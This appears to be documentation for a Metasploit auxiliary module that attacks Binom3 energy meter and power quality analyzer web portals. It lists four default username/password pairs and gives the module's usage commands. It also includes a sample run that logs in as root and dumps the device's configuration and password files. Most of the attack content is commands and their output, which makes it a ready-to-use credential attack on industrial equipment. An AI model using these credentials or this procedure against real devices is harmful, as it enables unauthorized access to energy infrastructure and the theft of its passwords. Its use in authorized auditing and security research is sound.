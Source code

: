 This module scans for Binom3 Multifunctional Revenue Energy Meter and Power Quality Analyzer management login portal(s), and attempts to identify valid credentials.
There are four (4) default accounts:

1. root/root
2. admin/1
3. alg/1
4. user/1

In addition to device config, 'root' user can also access password file. Other users - admin, alg, user - can only access configuration file.
The module attempts to download configuration and password files depending on the login user credentials found.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/binom3_login_config_pass_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/binom3_login_config_pass_dump
msf auxiliary(binom3_login_config_pass_dump) > set rhosts 1.3.3.7
msf auxiliary(binom3_login_config_pass_dump) > run

[+] 1.3.3.7:80 - Binom3 confirmed...
[*] 1.3.3.7:80 - Trying username:"root" with password:"root"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "root":"root"
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_Binom3_config_165927.txt
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping password file
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000004_moduletest_1.3.3.7_Binom3_passw_010954.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
